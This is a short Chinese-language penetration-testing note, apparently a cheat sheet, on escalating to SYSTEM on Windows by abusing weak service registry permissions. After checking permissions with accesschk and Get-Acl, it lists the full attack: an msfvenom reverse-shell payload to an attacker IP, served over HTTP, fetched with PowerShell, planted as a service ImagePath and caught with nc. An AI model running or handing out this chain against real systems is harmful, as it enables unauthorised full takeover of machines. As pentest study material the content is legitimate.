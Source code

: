 	检查有KEY_ALL_ACCESS权限的注册表项
	>accesschk.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services
	查询路径
	>reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\xxxx
	使用powershell查询
	>Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\xxxx | fl
	可以看到authenticated users ALLOW FullControl
	攻击
	>msfvenom –p window/shell_reverse_tcp lhost=192.168.1.3 lport=8888 –f exe > shell.exe
	>python –m SimpleHTTPServer 80
	>cd c:\Users\public
	>powershell wget http://192.168.1.3/shell.exe -o shell.exe
	>dir
	>reg add "HKLM\system\currentcontrolset\services\xxxx" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Public\shell.exe" /f
	>net start pentest
	攻击机监听获得system权限会话
	>nc -lvp 8888